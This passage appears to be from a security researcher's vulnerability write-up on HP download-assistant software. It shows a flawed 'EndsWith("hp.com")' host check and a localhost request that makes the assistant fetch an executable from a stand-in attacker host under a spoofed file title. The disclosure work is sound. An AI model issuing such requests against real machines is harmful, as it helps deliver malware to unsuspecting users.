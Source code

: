 The line we need to focus on is this:
    
    if (!new Uri(uriString).GetComponents(UriComponents.Host, UriFormat.Unescaped).EndsWith("hp.com"))

In English this translates to **if the hostname ends with hp.com**, which is the **only way the program authenticates a valid request**. On the face of it this might look like a perfectly valid way to ensure that a HTTP request came from a valid HP domain however it is critically flawed. The check only checks if the domain **ends** with hp.com, so if a hacker were to register the domain **nothp.com** and make a request from there then it would pass the check. Apart from [giving me Déjà vu](http://tomforb.es/dell-system-detect-rce-vulnerability) it also gives me a foot in the door - any command I issue will be processed by the software. So let's see what commands can be processed.


### Triggering a download
When the program processes a request it inspects the first two components of the requested path. The first is used to look up a **controller**, and the second component (if present) specifies the **method**. In the Chrome screenshot above it is making a request to the **version** controller, which has one default action that returns the software version. Looking through the source there are several interesting controllers, but we shall start with the **HPDIAcontroller** which is used to drive the "HP Download and Install Assistant". The actual code is pretty convoluted and not particularly relevant, but what is interesting is that if we make a request to (some unimportant parameters omitted):

    http://localhost:8092/hpdia/run?RemoteFile=https://hacker.com/messbox.exe&FileTitle=update.exe

Then this triggers the download assistant to start, which brings itself to the foreground downloads the file:

![](/uploads/Install_MFTZFC73.png)

I looked long and hard but the software doesn't automatically install anything without user interaction. However this doesn't render the attack useless, far from it. The attacker is able to control the displayed file title ("update.exe" in the screenshot) and can completely hide the real executable name by calling it "_.exe", which causes the download assistant to display "(.exe)" after it. One redeeming feature of this software is that it only accepts download requests for files that are served over HTTPS.

If an inexperienced user were to visit an malicious page that looked like a real HP site telling them to update their software and the HP download manager pops up I think many might press install, which would execute the attacker's malware and compromise their machines. For some advanced malware merely being downloaded could be enough.
